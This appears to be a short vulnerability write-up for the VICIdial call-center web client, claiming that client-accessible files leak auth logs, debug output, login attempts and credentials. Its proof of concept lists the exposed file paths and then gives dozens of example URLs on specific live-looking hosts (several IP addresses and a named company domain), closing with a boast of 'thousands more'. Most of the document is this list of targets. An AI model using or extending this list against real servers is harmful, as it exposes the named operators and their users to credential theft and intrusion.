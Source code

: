 # VICIdial - CVE
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems.

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt
/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT
/vicidial/agent_reports/
/vicidial/closer_SQL_updates.txt
/agc/vicidial_mysqli_errors.txt
/agc/vicidial_debug.txt
/agc/vicidial_auth_entries.txt

Example URL's:
http://172.104.24.101/vicidial/project_auth_entries.txt
http://172.104.24.101/vicidial/agent_reports/
http://172.104.24.101/agc/vicidial_mysqli_errors.txt
http://172.104.24.101/agc/vicidial_debug.txt
http://172.104.24.101/agc/vicidial_auth_entries.txt

http://35.156.102.118/vicidial/project_auth_entries.txt
http://35.156.102.118/vicidial/agent_reports/
http://35.156.102.118/vicidial/closer_SQL_updates.txt
http://35.156.102.118/agc/vicidial_mysqli_errors.txt
http://35.156.102.118/agc/vicidial_debug.txt
http://35.156.102.118/agc/vicidial_auth_entries.txt

https://callsrevenue.com/vicidial/project_auth_entries.txt
https://callsrevenue.com/agc/vicidial_mysqli_errors.txt
https://callsrevenue.com/agc/vicidial_debug.txt
https://callsrevenue.com/agc/vicidial_auth_entries.txt

http://69.60.110.115/vicidial/agent_reports/
http://69.60.110.115/vicidial/closer_SQL_updates.txt
http://69.60.110.115/agc/vicidial_mysqli_errors.txt
http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

